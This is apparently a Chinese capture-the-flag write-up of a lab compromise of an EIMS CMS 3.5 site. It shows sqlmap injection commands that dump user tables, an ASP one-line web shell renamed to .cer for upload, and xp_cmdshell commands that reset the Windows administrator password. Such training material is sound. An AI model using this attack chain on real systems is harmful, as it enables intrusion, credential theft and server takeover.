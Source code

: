# CRC_3_PENTEST_7_EIMS综合渗透

1.刚开启一个视频网站，大量资源流出损失很大。对黑客这种恶劣行为你励志找到这个可恶的黑客和这个系统的漏洞。

## 1.访问站站点

通过对网站访问发现此网站为`Powered By [eims_cms](http://eims.org.cn/) V 3.5`

![1568170770121](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568170770121.png)

发现此版本的cms存在sql注入的漏洞。

## 2.利用漏洞进行sql注入

发现存在漏洞的点在：`http://192.168.200.109/Notice.asp?ItemID=18`

这时使用sqlmap对其进行自动注入。

![1568170829967](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568170829967.png)

01.使用sqlmap对数据库进行暴力破解，获取数据库名、表名、字段名，最终获取后台管理员账号及密码。

sqlmap基础用法：

./sqlmap.py -u “注入地址” -v 1 --dbs // 列举数据库

./sqlmap.py -u “注入地址” -v 1 –current-db // 当前数据库

./sqlmap.py -u “注入地址” -v 1 –users // 列数据库用户

./sqlmap.py -u “注入地址” -v 1 –current-user // 当前用户

./sqlmap.py -u “注入地址” -v 1 –tables -D “数据库” // 列举数据库的表名

./sqlmap.py -u “注入地址” -v 1 –columns -T “表名” -D “数据库” // 获取表的 列名

./sqlmap.py -u “注入地址” -v 1 –dump -C “字段,字段” -T “表名” -D “数据库” // 获取表中的数据，包含列



02.通过在数据库下发现eims_flag 查看字段内容发现其中的flag信息。

`sqlmap.py -u http://192.168.200.109/Notice.asp?ItemID=18 -D Test_EIMS -T eims_flag -C flag --dump`

![1568165116326](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568165116326.png)

03.然后继续查找数据库eims_User 中的账号信息。

`sqlmap.py -u http://192.168.200.109/Notice.asp?ItemID=18 -D Test_EIMS -T eims_User -C Item1,Item2,Item3,Item4,Item5,Item6,Item7,Item8,Item9 --dump`

![1568164592100](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568164592100.png)

发现账号为：root 密码为 b2076528346216b3 采用md5加密，通过解码发现其密码为：admin1234

## 3 后台登录地址查找

01.通过御剑后台扫描器找到网站的后台地址

![1568165179355](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568165179355.png)

02.这时候要主要，打开后台页面的源码观察是否存在flag

![1568165337389](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568165337389.png)

发现其第二个flag

## 4.登录后台

![1568165627120](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568165627120.png)

01.这时候开始寻找后台的上传点，并且构造相应的asp的一句话进行上传，

asp一句话为：`<%eval request("cmd")%>` 为了让一句话木马更具有迷惑性需要把文件后缀改为.cer

02.上传文件

选择好文件开始上传

![1568165875202](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568165875202.png)

03.连接一句话

这时候获取到对应的路径地址，在ip地址后加入对应的地址对一句话木马进行测试，这时候可以采用蚁剑或菜刀进行连接。

`http://192.168.200.109/Upload/DownFiles/2019091102085188.cer`

![1568166135204](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568166135204.png)

![1568166173496](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568166173496.png)

04.观察网站的根目录会发现存在一个flag.asp 的文件 打开会发现对应的flag

![1568166254862](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568166254862.png)

05.在数据库配置文件中找到数据库的账号密码

![1568166437240](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568166437240.png)

## 4.使用一句话木马连接mssql数据库

![1568166719033](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568166719033.png)

利用mssql数据库的xpcmdshell组件执行系统命令:

01.EXEC master..xp_cmdshell 'whoami'     //查看当前我们的用户权限

![1568166788895](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568166788895.png)

当前cmdshell的权限是system权限，所以直接修改administrator的密码为1ue.com

02.EXEC master..xp_cmdshell 'net user administrator 1ue.com'

![1568166829976](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568166829976.png)

这时候系统的命令已经被更改开始使用远程连接服务器

## 5..直接远程桌面连接服务器

01.在桌面发现flag文件

flag5{}

![1568166936254](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568166936254.png)

02.在c盘发现另外一个flag文件

flag4{}

![1568166969530](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568166969530.png)